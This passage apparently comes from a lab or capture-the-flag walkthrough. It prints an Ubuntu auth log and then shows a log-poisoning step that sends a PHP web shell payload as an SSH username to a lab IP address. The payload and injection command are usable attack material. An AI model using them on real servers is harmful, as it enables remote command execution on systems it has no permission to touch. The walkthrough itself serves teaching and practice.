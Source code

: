```http
Oct 17 19:30:24 ubuntu sshd[406]: Server listening on 0.0.0.0 port 22.
Oct 17 19:30:24 ubuntu sshd[406]: Server listening on :: port 22.
Oct 17 19:31:01 ubuntu CRON[694]: pam_unix(cron:session): session opened for user root by (uid=0)
Oct 17 19:31:01 ubuntu CRON[694]: pam_unix(cron:session): session closed for user root
Oct 17 19:32:01 ubuntu CRON[697]: pam_unix(cron:session): session opened for user root by (uid=0)
Oct 17 19:32:01 ubuntu CRON[697]: pam_unix(cron:session): session closed for user root
Oct 17 19:32:42 ubuntu VGAuth[376]: vmtoolsd: Username and password successfully validated for 'root'.
Oct 17 19:32:45 ubuntu VGAuth[376]: message repeated 8 times: [ vmtoolsd: Username and password successfully validated for 'root'.]
Jan 11 13:32:05 ubuntu VGAuth[376]: vmtoolsd: Username and password successfully validated for 'root'.
Jan 11 13:32:13 ubuntu VGAuth[376]: message repeated 5 times: [ vmtoolsd: Username and password successfully validated for 'root'.]
Jan 11 13:32:15 ubuntu CRON[916]: pam_unix(cron:session): session opened for user root by (uid=0)
Jan 11 13:32:15 ubuntu CRON[916]: pam_unix(cron:session): session closed for user root
Jan 11 13:32:17 ubuntu VGAuth[376]: vmtoolsd: Username and password successfully validated for 'root'.
Jan 11 13:32:18 ubuntu VGAuth[376]: message repeated 2 times: [ vmtoolsd: Username and password successfully validated for 'root'.]
Jan 11 13:33:01 ubuntu CRON[922]: pam_unix(cron:session): session opened for user root by (uid=0)
Jan 11 13:33:01 ubuntu CRON[922]: pam_unix(cron:session): session closed for user root
Jan 11 13:34:01 ubuntu CRON[927]: pam_unix(cron:session): session opened for user root by (uid=0)
Jan 11 13:34:01 ubuntu CRON[927]: pam_unix(cron:session): session closed for user root
Jan 11 13:35:01 ubuntu CRON[938]: pam_unix(cron:session): session opened for user root by (uid=0)
Jan 11 13:35:01 ubuntu CRON[938]: pam_unix(cron:session): session closed for user root
Jan 11 13:36:01 ubuntu CRON[944]: pam_unix(cron:session): session opened for user root by (uid=0)
Jan 11 13:36:01 ubuntu CRON[944]: pam_unix(cron:session): session closed for user root
Jan 11 13:37:01 ubuntu CRON[947]: pam_unix(cron:session): session opened for user root by (uid=0)
Jan 11 13:37:01 ubuntu CRON[947]: pam_unix(cron:session): session closed for user root
Jan 11 13:38:01 ubuntu CRON[951]: pam_unix(cron:session): session opened for user root by (uid=0)
Jan 11 13:38:01 ubuntu CRON[951]: pam_unix(cron:session): session closed for user root
Jan 11 13:39:01 ubuntu CRON[1012]: pam_unix(cron:session): session opened for user root by (uid=0)
Jan 11 13:39:01 ubuntu CRON[1011]: pam_unix(cron:session): session opened for user root by (uid=0)
Jan 11 13:39:01 ubuntu CRON[1012]: pam_unix(cron:session): session closed for user root
Jan 11 13:39:01 ubuntu CRON[1011]: pam_unix(cron:session): session closed for user root
Jan 11 13:40:01 ubuntu CRON[1018]: pam_unix(cron:session): session opened for user root by (uid=0)
Jan 11 13:40:01 ubuntu CRON[1018]: pam_unix(cron:session): session closed for user root
Jan 11 13:41:01 ubuntu CRON[1021]: pam_unix(cron:session): session opened for user root by (uid=0)
Jan 11 13:41:01 ubuntu CRON[1021]: pam_unix(cron:session): session closed for user root
Jan 11 13:42:01 ubuntu CRON[1024]: pam_unix(cron:session): session opened for user root by (uid=0)
Jan 11 13:42:01 ubuntu CRON[1024]: pam_unix(cron:session): session closed for user root
Jan 11 13:43:01 ubuntu CRON[1027]: pam_unix(cron:session): session opened for user root by (uid=0)
Jan 11 13:43:01 ubuntu CRON[1027]: pam_unix(cron:session): session closed for user root
```

In the next step we will poison the auth log with a simple `PHP` shell by using `ssh` to connect to the target with a malicious username.

## injecting the shell
payload: `<?php system($_REQUEST['c']) ?>`
```bash
$ ssh "<?php system(\$_REQUEST['c']) ?>"@192.168.103.80
<?php system($_REQUEST['c']) ?>@192.168.103.80's password: 
Permission denied, please try again.
```
